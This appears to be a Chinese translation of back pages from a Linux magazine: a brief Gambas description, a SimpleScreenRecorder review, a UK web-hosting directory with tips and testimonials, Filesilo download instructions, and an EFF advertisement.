`Gambas` 在所有流行发行版的官方存储库中可用。最新发布版本是一个小项功能更新，对各种组件进行了修复和微调，包括代码编辑器、数据库编辑器、调试面板、表单编辑器、包向导等。

`Gambas` 是一种真正的面向对象的语言，具有对象、类、方法、常量、构造函数和析构函数。

- 简化了使用 `Qt4` 或 `GTK+` 工具包和设计器为 Linux 构建图形应用的过程。
- 有些人喜欢它的 Visual Basic 语言，另一些则认为这是它的优点。
- 使用类 Basic 的语法构建图形用户界面应用。

`http://gambas.sourceforge.net`

## 屏幕录制器

### SimpleScreenRecorder 0.3.10

#### 轻松录制和共享桌面截图

此应用程序实际上有点名不符实。它具有带有可调参数的功能，并让用户对录屏有很好的控制权。`SSR` 可以录制整个屏幕或桌面上的特定窗口区域。

它使用用户友好的界面，易于使用的流程具有多个选项。所有工具都有助于通过一点努力让录制成为一种极佳的体验。除了选择屏幕尺寸外，你还可以缩放并调整其帧率。

下一个屏幕提供了多个选择录制编码器和音频视频解码器的选项，以及相关的设置。`FFmpeg` 和 `libav` 库支持的所有格式包括 `MKV`、`MP4`、`WebM`、`OGG` 以及 `AVI` 等格式。你可以分别选择音频和视频流，并在开始捕获之前预览录制区域。

在录制期间，应用程序允许你监控你的录制参数。


- 优点：提供了易于使用的界面
- 缺点：缺少某些功能
- 非常适合……：录制屏幕

## 托管列表

> `catera` 是欧洲领先的


## 关于我们

在 1996 年，`catera` 是欧洲领先的托管提供商，提供基础设施、独立服务器和托管服务。

## 我们提供

- 托管主机：全成本效益、可靠、安全的解决方案
- 独立主机：带有免费设置和充足带宽的服务器
- 云托管：Linux、Windows 和私有云解决方案
- 数据中心托管：智能核心、免费定制

## 专业人士的五点建议

### 01 优化你的网站图片

为了网络，确保你的图片都经过了优化。尝试使用 `jpgmin.com` 或搜索 `Image Optimizer` 插件。你的主机提供备份解决方案，保护数据至关重要。

### 02 在英国托管你的网站

确保你的网站位于英国，而不仅仅是本地。如果你的服务器位于海外，可能会影响你对 `google.co.uk` 的搜索引擎排名——通过 `check-host.net` 检查站点所在位置。

### 03 你定期备份吗？

如果今天丢失了网站，会对你的业务产生什么影响？始终自行备份至关重要。

### 04 尝试在 Google 上排名

Google 在 2015 年进行了一些更改。如果你很难在 Google 上排名，请确保你的网站是响应式的。此外，Google 喜欢 HTTPS。联系你的主机并在网站上设置并使用 HTTPS。

### 05 避免廉价托管

我们相信你见过那些廉价托管的广告！每月 1 英元，很多客户会挤在一个服务器上？他们会使用廉价的 20 英元硬盘而不是 1000 英元的企业级 SSD？记住：一分一钱。

## 用户评价

`David Brown`

我买了一个 SSL 证书。购买过程非常简单。

`Tracy Hope`

我们在 `catera` 使用了多服务，网络连接是顶级的——良好的支持和快速回复是加分项。我们非常推荐 `catera`。

`J Edwards`

在尝试了其他托管公司后，这里的客户服务是最好的，而且包含了我需要的所有功能。我这里需要的是共享托管，控制面板非常完善……

## 顶级托管

## SSD 网站托管


`www.bargainhost.co.uk`

`0843 289 2681`

`CWCS` 托管型服务是英国领先的托管服务专家，提供全方位的托管产品、服务和支持。高技能员工不仅是托管专家，还致力于提供卓越的客户体验，并对他们所的工作充满热情。

自2001年以来，`Bargain Host` 一直致力于在英国提供价格最低的托管服务。它已成功实现这一目标，并建立了包含许多满意客户的大型数据库。它还因提供卓越的托管服务而屡获奖项。

- 托管机托管
- `VPS`
- 100% 网络可用率


- 共享托管
- 云托管
- 域名

## 价值型托管

## Linux 托管


## elasticoshost

`patchman-hosting.co.uk`

`016 424 237`


新用户可以预装 `WordPress` 或获得免费管理。托管型 `WordPress` 服务在第一年完全免费。

我们以“博学且卓越的服务”闻名，为全英国范围的用户、开发者和经理提供服务。

`ElastiHost` 为全球企业提供简单、灵活且高效益的托管服务，具有高性、可扩展性和可靠性。我们的工程师团队通过电话、电子邮件和工单提供 24/7 全天支持。

Linux 托管是家庭用户、业务用户和寻求性价比且强大的托管服务的设计者的绝佳解决方案。无论你是在构建大型投资组合，还是运行数据库电子商务网站，都有适合你的 Linux 托管解决方案。

- 任何操作系统上的云服务器
- Linux 操作系统容器
- 世界级 24/7 支持


## 小微企业托管

## 快速、可靠的托管


`www.bytemark.co.uk`

`0190 094 890`

`www.hostpaa.co.uk`

`0850 01 7126`

`HostPaa` 是一家屡获殊荣的网站托管服务商，也是绿色托管的领导者。它提供功能最全的托管包之一，以及 24/7 客户支持、学习资源和卓越的可靠性。

`Bytememark` 成立于2002年，是“英国云与专用托管的专家”。我们的营销团队提供专业、透明的定价、由员工提供的免费软件支持以及价格合理的高质量托管硬件。

## 预算型托管

## 托管：

`www.hetzner.de | +49(0)9831 5050`

`Hetzner` 是一家专业的网站托管提供商和专家级托管运营商。自1997年以来，该公司一直提供私有数据保护和高性能托管产品，以及网站高效运行的基础设施。稳定的技术、极具吸引力的价格以及灵活的支持服务的结合，使 `Hetzner` 能够在国内和国际市场上继续保持其领先地位。

- 专用和共享托管
- 托管服务
- 互联网域名和
- SSL 证书
- 存储箱
- 网站生成器
- 预算价格
- 无限数据库
- 托管托管
- 英国云托管
- Linux 托管


## 免费资源

## 欢迎来到 Filesilo！

从 `Filesilo` 账户下载最好的发行版、必备开源软件（FOSS）以及所有项目文件。

这是什么？

每当你在杂志中看到这个符号时，就有在线内容在 `Filesilo` 等待解锁。

为什么要注册？

- 安全可靠的在线访问，随时随地
- 每位读者（纸质和数字版）均可免费访问
- 仅下载你想要的文件，无需等待
- 你所有期数的礼物，全部汇于一处


## 1. 解锁你的内容

访问 `www.filesilo.co.uk/user` 并按照屏幕上的指示创建我们的 `Filesilo` 系统账户。当你来下载数字版时，登录你的账户并根据杂志页面回答简单的问题来解锁单期内容，即可立即访问。简单吧！

## 2. 享受资源

你可以使用任何流行的浏览器在任何电脑、平板或智能手机上访问 `Filesilo`。我们建议你使用浏览器下载内容，因为你可能无法下载到其他设备。如果你在 `Filesilo` 处理过程中遇到任何问题，请查看常见问题解答（FAQs）或发送邮件至 `filesilo@future.com`。


## 登录 `www.filesilo.co.uk/user`

## 订阅并获取即时访问

通过订阅杂志来节省费用并获取我们的整个资源库——立即订阅吧！本月可以发现……

发行版

是 Ubuntu 的时间了！尝尝流行的官方版本，`Ubuntu 18.04 LTS (beta)`。想要尝试不一样的吗？尝试一下中量级的 `MX Linux 17.1`，如果你无法忍受 `Devuan 2.0 (beta)` 的话。

软件

获取我们计算机安全教程的权限提升勋章，其中包括 `Lynis` 审计工具和漏洞扫描器。

代码

通过我们的示例脚本、`Dockerfiles`、`Ansible` 剧本和 `Puppet` 清单进入容器业务。


## 短篇

## Stephen Oram

下期特价 5月

主云 | 无法解决的问题 | 免费 Nextcloud

关注我们

Facebook: `facebook.com/LinuxUser`

Twitter: `@linuxusag`

## 近未来小说

## 快乐永远


科技购买建议的来源

`techradar.com`

电子前线基金（Electronic Frontier Foundation）是数字世界中捍卫公民自由的领先非营利组织。`EFF` 成立于1990年，通过影响力性诉讼、政策分析、基层行动主义和技术开发，维护用户隐私、言论自由和创新。我们致力于确保随着我们对技术使用的增加，权利和自由能够得到增强和保护。

# EFF.ORG

## 电子前线基金

在电子前疆保护权利并促进自由
